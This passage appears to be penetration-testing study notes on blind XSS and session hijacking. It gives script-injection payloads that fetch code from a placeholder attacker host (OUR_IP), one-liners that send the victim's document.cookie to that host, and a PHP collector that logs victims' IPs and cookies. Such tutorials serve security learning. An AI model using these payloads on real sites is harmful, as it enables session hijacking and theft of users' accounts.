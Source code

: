 Now open our listener with PHP in the same folder as the file:
```console
zero@pio$ php -S 0.0.0.0:80
```

## Session Hijacking

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a **Session Hijacking** (or **Cookie Stealing**) attack. 

### Blind XSS Attack 

Blind XSS vulnerabilities usually occur with forms only accessible by certain users (for example admins). Some potential examples include:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

First we need to know if it is vulnerable. To do so, we will make a paylad that send a request to a HTTP server in our IP.
```html
<script src="http://OUR_IP/username"></script>
<script src="http://OUR_IP/password"></script>
```

If any of this send a request, we know the vulnerable field. We can try different payloads until one of them works (if you don't have the source code):
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

This are some of example of payloads to start the session hijacking:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Create a script as:
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

With the following **index.php**:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
